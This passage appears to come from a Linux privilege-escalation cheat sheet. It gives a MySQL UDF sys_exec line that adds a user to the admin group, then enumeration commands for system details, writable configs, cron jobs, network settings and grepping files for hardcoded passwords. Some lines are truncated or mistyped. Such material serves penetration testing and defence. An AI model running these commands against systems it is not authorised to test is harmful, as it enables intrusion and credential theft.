 sys\_exec('usermod -a -G admin username')

More about mysql:

https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/

Find linux distribution & version

$ cat /etc/issue; cat /etc/\*-release; cat /etc/lsb-release; cat /etc/redhat-release;

Architecture

$ cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release

Environment variables

$ cat /etc/profile; cat /etc/bashrc; cat ~/.bash\_profile; cat ~/.bashrc; cat ~/.bash\_logout; env; set

Find printers

$ lpstat -a

Find apps installed;

$ ls -alh /usr/bin/; ls -alh /sbin/; dpkg -l; rpm -qa; ls -alh /var/cache/apt/archivesO; ls -alh /var/cache/yum/\*;

Find writable configuration files

$ find /etc/ -writable -type f 2>/dev/null

Miss-configured services

$ cat /etc/syslog.conf; cat /etc/chttp.conf; cat /etc/lighttpd.conf; cat /etc/cups/cupsd.conf; cat /etc/inetd.conf; cat /etc/apache2/apache2.conf; cat /etc/my.conf; cat /etc/httpd/conf/httpd.conf; cat /opt/lampp/etc/httpd.conf; ls -aRl /etc/ | awk '$1 ~ /^.\*r.\*/

Scheduled jobs

$ crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron\*; cat /etc/cron\*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny

Grep hardcoded passwords

$ grep -i user [filename]

grep -i pass [filename]

grep -C 5 "password" [filename]

find . -name "\*.php" -print0 | xargs -0 grep -i -n "var $password"

if web server run in web root:

$ grep "localhost" ./ -R

Network configuration

$ /sbin/ifconfig -a; cat /etc/network/interfaces; cat /etc/sysconfig/network; cat /etc/resolv.conf; cat /etc/sysconfig/network; cat /etc/networks; iptables -L; hostname; dnsdomainname
